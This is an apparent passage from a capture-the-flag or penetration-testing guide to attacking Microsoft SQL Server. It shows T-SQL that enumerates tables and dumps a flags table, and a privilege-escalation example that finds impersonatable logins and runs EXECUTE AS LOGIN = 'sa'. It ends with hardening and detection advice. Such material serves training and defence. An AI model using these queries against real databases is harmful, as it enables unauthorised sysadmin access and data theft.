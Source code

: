 ```sql
-- Connect and enumerate
USE flagDB
GO
SELECT table_name FROM flagDB.INFORMATION_SCHEMA.TABLES
GO
SELECT * FROM flags
GO

-- Answer: Flag content from database
```

### Example 3: Privilege Escalation
**Task**: Escalate to sysadmin via impersonation

```sql
-- Check available users to impersonate
SELECT distinct b.name FROM sys.server_permissions a
INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO

-- Impersonate SA
EXECUTE AS LOGIN = 'sa'
-- Now have sysadmin privileges
```

---

## 🛡️ Defense & Mitigation

### Database Security Hardening
- **Disable unnecessary features** (xp_cmdshell, Ole Automation)
- **Implement strong authentication**
- **Use least privilege principles**
- **Network segmentation** for database servers
- **Regular security updates**
- **Monitor file operations**

### Detection Strategies
- **Monitor failed authentication attempts**
- **Alert on xp_cmdshell usage**
- **Track file read/write operations**
- **Log impersonation activities**
- **Monitor linked server queries**
- **Detect SMB connection attempts**

---

## 🔗 Related Techniques
